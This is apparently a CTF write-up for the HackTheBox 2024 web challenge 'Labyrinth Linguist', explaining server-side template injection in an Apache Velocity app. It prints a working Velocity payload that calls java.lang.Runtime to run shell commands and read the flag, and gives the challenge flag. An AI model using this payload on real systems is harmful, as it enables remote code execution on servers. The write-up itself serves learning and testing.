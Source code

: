 ```yaml
---
name: Labyrinth Linguist (2024)
event: HackTheBox Cyber Apocalypse CTF 2024
category: Web
description: Writeup for Labyrinth Linguist (Web) - HackTheBox Cyber Apocalypse CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Labyrinth Linguist

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/-vhl8ixthO4/0.jpg)](https://www.youtube.com/watch?v=-vhl8ixthO4?t=586 "HackTheBox Cyber Apocalypse '24: Labyrinth Linguist (web)")

## Description

> You and your faction find yourselves cornered in a refuge corridor inside a maze while being chased by a KORP mutant exterminator. While planning your next move you come across a translator device left by previous Fray competitors, it is used for translating english to voxalith, an ancient language spoken by the civilization that originally built the maze. It is known that voxalith was also spoken by the guardians of the maze that were once benign but then were turned against humans by a corrupting agent KORP devised. You need to reverse engineer the device in order to make contact with the mutant and claim your last chance to make it out alive.

## Solution

We can review source code but first let's check the site functionality. It's basic, we have a form field and a submit button and it says `Enter text to translate english to voxalith!`.

If we enter some text, it will send our data in a POST request, e.g. `text=hi` and display our text in a "fire" text font.

```html
<h2 class="fire">hi</h2>
```

The burp scanner detects several vulns, including `SSTI`, `XSS` and `Client-side desync`.

The XSS checks out, we can easily pop an alert but what is a vulnerability without impact? Let's stop wasting time with self-XSS and review the SSTI.

The advisory notes that the template engine appears to be `Velocity`. Here's the URL-decoded payload, which prints `v0oot695019a4423` to the screen.

```java
#set ($a=923*753) v0oot${a}a4423
```

Burp always complicates PoC's for some reason, here's a better visualisation.

```java
#set ($hack=420*23) ${hack}
```

When URL-encoded, it prints `9660`. So, we have confirmed the presence of server-side template injection. Next, we want to find some payloads that do more than basic mathematical calculations.

-   [Portswigger SSTI research](https://portswigger.net/research/server-side-template-injection)
-   [HackTricks Velocity SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#velocity-java)
-   [PayloadsAllTheThings Velocity SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#java---velocity)
-   [Velocity SSTI blogpost](https://antgarsil.github.io/posts/velocity)
-   [Velocity user guide](https://velocity.apache.org/engine/1.7/user-guide.html)

None of the payloads I could find would work. I Tried `text=%23include("flag.txt")` and various directory traversals but it always always returned a 500 error; `unable to find resource`.

Eventually, I found a payload in a [gosecure SSTI workshop](https://gosecure.github.io/template-injection-workshop/#6) that worked.

```java
#set($x='')##
#set($rt=$x.class.forName('java.lang.Runtime'))##
#set($chr=$x.class.forName('java.lang.Character'))##
#set($str=$x.class.forName('java.lang.String'))##
#set($ex=$rt.getRuntime().exec('ls ../'))##
$ex.waitFor()
#set($out=$ex.getInputStream())##
#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```

It was quite similar to the payloads in the resources listed earlier. The main difference is we didn't access the `$class` variable directly (instead accessing via a string).

Anyway, we URL-encode the payload list out the files in the directory. One is named `flag3b28509596.txt` so we can just update the payload to `cat` the flag.

Again, we solved the challenge without requiring access to server-side source code. Personally, I think this is a valuable exercise, especially if you want to improve your bug bounty skills since source code is typically unavailable. Actually, I did download the code and check it very quickly towards the beginning, e.g. it's nice to know there's a `flag.txt` that will be in the root directory.

```bash
mv /flag.txt /flag$(cat /dev/urandom | tr -cd "a-f0-9" | head -c 10).txt
```

I didn't study the source code though. If I did, I would of discovered the `Main.java` file imports `velocity` and inserts our unsanitised user input (`textString`) into the webpage, resulting in SSTI.

```java
template = readFileToString("/app/src/main/resources/templates/index.html", textString);
```

```java
StringReader reader = new StringReader(template);
org.apache.velocity.Template t = new org.apache.velocity.Template();
```

```java
t.setData(runtimeServices.parse(reader, "home"));
t.initDocument();
VelocityContext context = new VelocityContext();
context.put("name", "World");
StringWriter writer = new StringWriter();
t.merge(context, writer);
template = writer.toString();
```

Flag: `HTB{f13ry_t3mpl4t35_fr0m_th3_d3pth5!!}`
